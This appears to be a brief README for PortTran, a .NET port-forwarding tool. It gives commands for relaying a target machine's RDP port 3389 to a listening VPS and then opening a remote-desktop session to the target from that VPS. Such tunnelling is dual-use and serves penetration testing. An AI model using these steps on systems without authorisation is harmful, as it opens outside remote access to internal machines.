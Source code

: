 PortTran by k8gege<br>
.NET端口转发工具 支持任意权限<br> 

0x001 VPS监听<br>
PortTranS.exe 8000 338<br>
<img src=https://github.com/k8gege/PortTran/blob/master/img/vps.PNG></img><br>
0x002 目标端口转发<br>
PortTranC.exe 192.168.85.169 3389 192.168.85.142 8000<br>
<img src=https://github.com/k8gege/PortTran/blob/master/img/target.PNG></img><br>

0x003 VPS连接3389<br>
mstsc /console /v:127.0.0.1:338<br>
<img src=https://github.com/k8gege/PortTran/blob/master/img/3389.PNG></img><br>
